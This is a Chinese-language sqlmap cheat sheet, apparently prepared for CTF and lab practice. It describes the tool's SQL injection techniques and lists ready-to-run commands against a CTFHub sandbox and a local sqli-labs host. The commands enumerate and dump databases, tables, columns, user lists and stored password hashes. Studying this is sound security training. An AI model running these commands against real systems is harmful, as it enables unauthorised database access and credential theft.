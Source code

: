# sqlmap 使用手册

## 速查用例

``` shell
sqlmap -u "http://challenge-00cfdd6ec4589579.sandbox.ctfhub.com:10800/?id=123" --dbs

sqlmap -u "http://challenge-00cfdd6ec4589579.sandbox.ctfhub.com:10800/?id=123" -D sqli --tables

sqlmap -u "http://challenge-00cfdd6ec4589579.sandbox.ctfhub.com:10800/?id=123" -D sqli -T flag --columns

sqlmap -u "http://challenge-00cfdd6ec4589579.sandbox.ctfhub.com:10800/?id=123" -D sqli -T flag -C flag --dump
```

# Sqlmap

**sqlmap**是一个自动化的 SQL 注入工具，其主要功能是扫描，发现并利用给定的 URL 进行 SQL 注入。目前支持的数据库有 MySql、Oracle、Access、PostageSQL、SQL Server、IBM DB2、SQLite、Firebird、Sybase 和 SAP MaxDB 等

Sqlmap 采用了以下 5 种独特的 SQL 注入技术

- 基于布尔类型的盲注，即可以根据返回页面判断条件真假的注入
- 基于时间的盲注，即不能根据页面返回的内容判断任何信息，要用条件语句查看时间延迟语句是否已经执行 (即页面返回时间是否增加) 来判断
- 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回到页面中
- 联合查询注入，在可以使用 Union 的情况下注入
- 堆查询注入，可以同时执行多条语句时的注入

Sqlmap 的强大的功能包括 数据库指纹识别、数据库枚举、数据提取、访问目标文件系统，并在获取完全的操作权限时执行任意命令。

sqlmap 是一个跨平台的工具，很好用，是 SQL 注入方面一个强大的工具！

我们可以使用 -h 参数查看 sqlmap 的参数以及用法，**sqlmap -h**

![](https://p1.ssl.qhimg.com/t01bdaeb5865a613177.png)

sqlmap 默认的 User-Agent：sqlmap/1.1.9.22#dev ([http://sqlmap.org](http://sqlmap.org/))

![](https://p0.ssl.qhimg.com/t0125c050b4a36f54c6.png)

# Sqlmap 的简单用法

```python
sqlmap -r http.txt  #http.txt是我们抓取的http的请求包
sqlmap -r http.txt -p username  #指定参数，当有多个参数而你又知道username参数存在SQL漏洞，你就可以使用-p指定参数进行探测
sqlmap -u "http://www.xx.com/username/admin*"       #如果我们已经知道admin这里是注入点的话，可以在其后面加个*来让sqlmap对其注入
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   #探测该url是否存在漏洞
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   --cookie="抓取的cookie"   #当该网站需要登录时，探测该url是否存在漏洞
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --data="uname=admin&passwd=admin&submit=Submit"  #抓取其post提交的数据填入
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --users      #查看数据库的所有用户
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --passwords  #查看数据库用户名的密码
有时候使用 --passwords 不能获取到密码，则可以试下
-D mysql -T user -C host,user,password --dump  当MySQL< 5.7时
-D mysql -T user -C host,user,authentication_string --dump  当MySQL>= 5.7时
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-user  #查看数据库当前的用户
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --is-dba    #判断当前用户是否有管理员权限
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --roles     #列出数据库所有管理员角色，仅适用于oracle数据库的时候

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --dbs        #爆出所有的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --tables     #爆出所有的数据表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --columns    #爆出数据库中所有的列
```